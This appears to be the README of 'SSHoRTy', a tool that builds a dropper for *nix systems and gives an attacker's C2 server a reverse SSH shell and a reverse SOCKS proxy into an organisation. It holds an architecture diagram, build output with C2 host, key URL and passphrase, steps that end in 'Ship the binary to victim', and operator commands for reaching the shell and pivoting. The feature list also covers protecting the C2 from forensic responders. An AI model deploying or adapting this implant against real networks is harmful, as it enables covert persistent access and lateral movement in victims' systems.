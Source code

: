 
# SSHoRTy

A standalone SSH Reverse shell tunnel and Reverse SOCKS Proxy Dropper for *nix systems. 
```bash
 [Organization]  ----- |Internet| ------ [Attacker C2]
 
      (Dropper)  ------ Call back ------> SSH Server -------------------|
                                                                        |  Attacker SSH shell client             
 1. Internal Host <==== SSH Client <= Reverse Shell ==== SSH Server ----|
                                                                        |  Attacker Browser+SOCKS
 2. Internal Hosts N <==== SSH Client <= Reverse SOCKS ==== SSH Server -|
    Internal Hosts N+1

```
## Features

- Full PTY support, the "real" shell
- end-to-end SSH w/key equivalency
- RSA key can be hosted offsite and fetched for operation. It is Additionally encrypted with AES in flight 
- Reverse SSH is protected on atatcker side with an additional password to avoid hijacking connections.
- Ability to protect from C2 takeover from DFIR by authorized_keys options 

Note: No SCP yet. No DNS proxying yet.

## Deployment 

Build Dropper 

`./build.sh`

```bash
[*] Building dropper
[*] Dropper Information (keep it safe):
    #######################
    Dropper File: rssh (7010788 bytes)
    SSH serverHost=192.168.88.15
    SSH serverPort=22
    SSH serverUser=tester
    SSH serverUserKeyUrl=http://127.0.0.1:9000/id_rsa_test_enc
    SSH serverUserKeyPassphrase=password1
    SSH-RT remoteCmdHost=127.0.0.1
    SSH-RT remoteCmdPort=2022
    SSH-RT remoteCmdUser=operator
    SSH-RT remoteCmdPwd=6009c967f7176e5be0bb14d5b2beb0a8905a069f
    SSH-RTS remoteSocksHost=127.0.0.1
    SSH-RTS remoteSocksPort=1080
    SSH-RT shell agent password: 6009c967f7176e5be0bb14d5b2beb0a8905a069f 
    #######################

       Usage SSH-RT: ssh operator@127.0.0.1 -p 2022 
       Usage SSH-RTS: browser SOCKS proxy: 127.0.0.1:1080 

```
1. Host dropper RSA keys on HTTP server (fetchable by URL from Company Intranet)
2. Allow SSH on C2 
3. Ship the binary to victim


## Operation

```bash
       SSH from Attacker C2: ssh operator@127.0.0.1 -p 2022 
       
       SOCKS from Attacker C2 SOCKS proxy: 127.0.0.1:1080 
       point your browser to it and/or proxifier. Note: no DNS masking yet.
```
## Code used
Thanks to ref: 
- https://gist.github.com/codref/473351a24a3ef90162cf10857fac0ff3
-	 https://gist.github.com/pavel-odintsov/0208f1848952d4940b4a5976165db17f
-	 https://github.com/creack/termios/blob/master/win/win.go
-	 https://github.com/davecheney/socksie
-	 https://sosedoff.com/2015/05/25/ssh-port-forwarding-with-go.html
- https://raw.githubusercontent.com/Scalingo/go-ssh-examples/master/server_complex.go
